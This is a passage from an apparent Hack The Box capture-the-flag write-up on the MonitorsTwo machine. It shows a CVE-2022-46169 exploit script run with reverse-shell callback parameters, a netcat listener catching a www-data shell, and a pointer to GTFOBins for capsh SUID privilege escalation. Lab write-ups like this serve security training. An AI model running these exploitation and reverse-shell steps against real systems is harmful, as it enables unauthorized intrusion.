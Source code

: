 ```
┌──(ryan㉿kali)-[~/HTB/MonitorsTwo]
└─$ python CVE-2022-46169.py -u http://10.129.228.231 --LHOST=10.10.14.128 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

And catch a shell in what seems to be a docker container:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsTwo]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.128] from (UNKNOWN) [10.129.228.231] 37266
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ whoami
whoami
www-data
www-data@50bca5e748b0:/var/www/html$ hostname
hostname
50bca5e748b0
```

Running LinPEAS on the target we find `capsh` has the SUID bit set:

![htb_monitors2_lp1.png](../assets/monitorstwo_assets/htb_monitors2_lp1.png)

We can head to: https://gtfobins.github.io/gtfobins/capsh/#suid for the command we'll need.
